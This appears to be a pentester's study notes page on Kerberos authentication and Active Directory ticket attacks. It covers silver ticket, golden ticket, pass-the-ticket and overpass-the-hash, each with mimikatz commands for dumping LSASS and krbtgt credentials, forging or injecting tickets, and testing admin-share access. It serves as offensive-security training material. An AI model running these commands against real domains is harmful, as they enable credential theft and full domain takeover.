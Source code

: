 Related articles: 
Tags: #OS

---

When we the endpoint is domain-joined we will be able to conduct different PtH tickets including the silver ticket and gold ticket attacks aiming at Kerberos.

Kerberos is an authentication mechanism that's issuing tickets so that certain services can be accessed. 

When a request is made:

- The Authentication Server (AS) is contacted
- The AS has to verify the identity so it checks the user and password
- It then converts the password to NTLM hash and encrypts it with the timestamp and sends it to the KDC (DC).
- The DC decrypts it using the stored hash of your password.
- If successful a TGT will be granted.

---

The TGT (Ticket Granting Ticket) is like getting the access in a building, but not in a specific room.

- It is encrypted with the krbtgt hash.
- Valid for 10 hours
- Stored in memory LSASS.
- Used to request service tickets.

---

The TGS (Ticket Granting Service) happens when you exchange the TGT for a service ticket.

- It will verify the TGT and grant a TGS.


---

# Silver Ticket Attack

This type of attack will forge a TGS bypassing the TGT process. It can do so by forging one with a service account hash.

```powershell
# Getting service account hash
mimikatz "privilege::debug" "sekurlsa::logonpasswords"

# Creating silver ticket
mimikatz "kerberos::golden /domain:corp.local /sid:S-1-5-21-... /target:srv01.corp.local /service:cifs /rc4:service_account_hash /user:fake_admin /ptt"

# Testing access
dir \\srv01.corp.local\c$
```

Key Points:
- Requires service account hash
- More stealthy (no DC communication)
- Limited to specific service
- PAC validation might be enforced

---

# Golden Ticket Attack

This forges a TGT, giving complete domain access. Like having the master key to make any room key you want.

```powershell
# Dumping krbtgt hash
mimikatz "privilege::debug" "lsadump::lsa /patch"

# Creating golden ticket
mimikatz "kerberos::golden /domain:corp.local /sid:S-1-5-21-... /krbtgt:krbtgt_hash /user:fake_admin /ptt"

# Testing domain admin access
dir \\dc01\c$
```

---

# Pass the Ticket Attack

Instead of creating new tickets, we can dump the current ones and use them:

```powershell
# Export tickets
mimikatz "sekurlsa::tickets /export"

# Inject ticket
mimikatz "kerberos::ptt ticket.kirbi"
```

---

# Overpass the Hash

Converting current NTLM hashes into Kerberos tickets:

```powershell
# Convert hash to ticket
sekurlsa::pth /user:admin /domain:corp.local /ntlm:hash /run:powershell.exe

# Request TGT
net use \\dc01
```
